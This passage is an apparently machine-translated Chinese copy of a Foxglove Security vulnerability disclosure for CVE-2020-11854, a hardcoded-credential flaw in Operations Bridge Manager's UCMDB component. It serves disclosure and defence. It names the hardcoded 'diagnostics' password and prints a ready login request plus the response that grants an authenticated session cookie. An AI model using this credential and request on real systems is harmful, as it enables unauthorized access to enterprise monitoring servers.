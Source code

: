 Foxglove 安全博客文章

漏洞详情

**第 1 条：使用硬编码证书**

CWE-798: 硬编码全权证书的使用

CVE-2020-11854 / ZDI-20-1287

风险分类。危急

攻击向量。远程

限制条件：无 / 不适用

受影响的产品 / 版本。

操作桥管理器版本。2020.05、2019.11、2019.05、2018.11、2018.05、10.6x 和 10.1x 版本及旧版本。

应用性能管理版本。9.51、9.50 和 9.40，配备 uCMDB 10.33 CUP 3。

运营桥（容器化）版本。2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11

OBM 的认证由 UCMDB 组件处理。安装后，会创建以下用户。

admin

sysadmin

UISysadmin

bsm_odb_customer1

diagnostics

这些用户只有在访问 UCMDB 组件时才可见。从主 Web 应用程序中，只有管理员和在主 Web 应用程序中创建的用户是可见的。  

前面三个，admin、sysadmin 和 UISysadmin 的密码都是一样的，这是在安装产品时由管理员设置的。只有 admin 可以登录主 Web 应用，其他的只能登录 UCMDB。

我决定调查剩下的两个账户，即 bsm_odb_customer1 和诊断，因为文档中根本没有提到这两个账户。

虽然没有确定这些账户是如何设置的，但通过大量的测试，确定它们都必须有硬编码的密码。虽然 bsm_odb_customer1 的密码从未被发现，但诊断程序的密码是简单的 "admin"。

这使得任何人都可以以诊断程序的身份登录 UCMDB 组件。需要注意的是，这个用户是无权限的，但正如我们在下面看到的，这并不重要。

为了获得经过认证的 LWSSO_COOKIE_KEY，我们需要向 ucmdb-ui/cms/loginRequest.do 发送一个请求，在查询字符串中包含用户名和密码（后者为 64 基编码）：

```
POST /ucmdb-ui/cms/loginRequest.do;?customerID=1&isEncoded=false&userName=diagnostics&password=YWRtaW4=&ldapServerName=UCMDB HTTP/1.1
```

样本 A：HTTP POST UCMDB 登录请求

UCMDB 服务器将对其作出以下回应：

```
HTTP/1.1 200 OK
Date: Sun, 17 May 2020 21:13:21 GMT
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000
Set-Cookie: LWSSO_COOKIE_KEY=WTQwNdgFlDSM1Il1XTlWJGErjHIGDg54mzv4Yu51_HMk3mrLF7ZMB6KeRecN30sWkdkEFJyLpqUGQ0hXQnPiapbw1891iuGEOW4Ewfk8XNUnIJsouObXN-GaZHLhkfHNlUKp73qEqqvY594n2P5O2sqsn9KYrK7PuGQ5FE0ddKkI2pIvn0rkbT2eRFVdSpHhk-6SadvfLm-CbzdrgLV2INWQgYlYtqMLevI5iv8byN4.; Path=/; HTTPOnly=; Secure=
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Authentication-Result-Key: AUTHENTICATED_SUCCESSFULLY
LOCALE: en
Content-Language: en
Content-Type: text/html;charset=utf-8
Content-Length: 26983

<... POST DATA ...>
```
